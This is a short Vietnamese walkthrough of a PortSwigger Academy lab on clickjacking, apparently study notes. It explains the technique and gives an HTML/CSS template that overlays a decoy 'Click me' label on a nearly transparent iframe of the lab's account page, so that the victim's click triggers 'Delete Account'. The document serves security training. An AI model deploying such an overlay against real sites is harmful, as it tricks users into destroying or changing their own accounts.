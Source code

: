 # CLICKJACKING

Clickjacking giống như việc bạn nhấp vào 1 button nhưng trang quảng cáo hiện ra. Lỗ hổng này có kịch bản là việc mình có thể tạo 1 iframe để kéo trang web cần attack vào, và tạo 1 button riêng biệt nổi lên trên nhằm che đi trang web cần attack bên dưới và khi người dùng click vào button mà ta tạo ra thì vô tình sẽ kích hoạt button trên trang cần attack đó. 

Dễ hiểu hơn ta sẽ đi vào ví dụ 1: 

---

## 1. Basic clickjacking with CSRF token protection
https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

Chúng ta tạo ra 1 đoạn HTML nhằm đưa trang web cần attack vào nhưng cho opacity = 0.0001  để như tàng hình bên dưới: 

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Cố gắng căn chỉnh sao cho chữ `Click me` trùng với button `Delete Account` của trang web cần attack. Victim sẽ chỉ thấy chữ `Click me` hiển thị lên, và khi click vào nó sẽ Delete Account của họ. \
